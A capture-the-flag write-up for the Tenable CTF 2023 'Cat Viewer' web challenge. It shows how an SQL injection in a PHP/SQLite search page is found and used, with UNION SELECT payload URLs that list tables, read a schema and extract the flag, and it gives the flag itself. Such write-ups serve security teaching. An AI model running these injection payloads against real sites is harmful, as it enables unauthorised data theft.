 # Tenable Capture the Flag 2023

## Cat Viewer

> I built a little web site to search through my archive of cat photos. I hid a little something extra in the database too. See if you can find it!
>
>  Author: N/A
>

Tags: _web_

## Solution
The webapp given for this challenge allows to query cats. The query name is known as the link from the challenge description automatically shows a cat named `Shelton` (https://nessus-catviewer.chals.io/index.php?cat=Shelton).

After some trial and error I got an interesting error when entering `"`:
```
Searching for cats with names like "


Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: """ in /var/www/html/index.php on line 19

Fatal error: Uncaught Error: Call to a member function numColumns() on bool in /var/www/html/index.php:21 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 21
```

So, this is a `sqli` vulnerability we are looking for. Also we know we have a `SQLite` database running at the other end. With this information we can start some recon, first we check if a `union select` works and what parameter is displayed:

```
https://nessus-catviewer.chals.io/index.php?cat=Shelton%22%20UNION%20SELECT%201,2,3,4%20--%20-

Searching for cats with names like Shelton" UNION SELECT 1,2,3,4 -- -

Name: 3
```

Knowing we can inject into parameter `3` we can try to find the name of the table that is queried.
```
https://nessus-catviewer.chals.io/index.php?cat=Shelton%22%20UNION%20SELECT%201,2,name,4%20from%20sqlite_master%20WHERE%20type%20=%27table%27--%20-

Searching for cats with names like Shelton" UNION SELECT 1,2,name,4 from sqlite_master WHERE type ='table'-- -

Name: cats


Name: sqlite_sequence
```

Then we need to know the columns of the table to see if the flag is hidden in another column. And, yes... The flag is in column `flag` within table `cats`.
```
https://nessus-catviewer.chals.io/index.php?cat=Shelton%22%20UNION%20SELECT%201,2,sql,4%20from%20sqlite_master%20WHERE%20type%20!=%27meta%27%20and%20tbl_name%20NOT%20like%20%27sqlite_%%27%20and%20name=%27cats%27--%20-

Searching for cats with names like Shelton" UNION SELECT 1,2,sql,4 from sqlite_master WHERE type !='meta' and tbl_name NOT like 'sqlite_%' and name='cats'-- -

Name: CREATE TABLE cats ( id INTEGER PRIMARY KEY AUTOINCREMENT, image TEXT NOT NULL, name TEXT NOT NULL, flag TEXT NOT NULL )

```

Knowing this all we can query the flag:
```
https://nessus-catviewer.chals.io/index.php?cat=Shelton%22%20UNION%20SELECT%201,2,flag,4%20from%20cats%20--%20-

Searching for cats with names like Shelton" UNION SELECT 1,2,flag,4 from cats -- -

Name:


Name: flag{a_sea_of_cats}

```

Flag `flag{a_sea_of_cats}`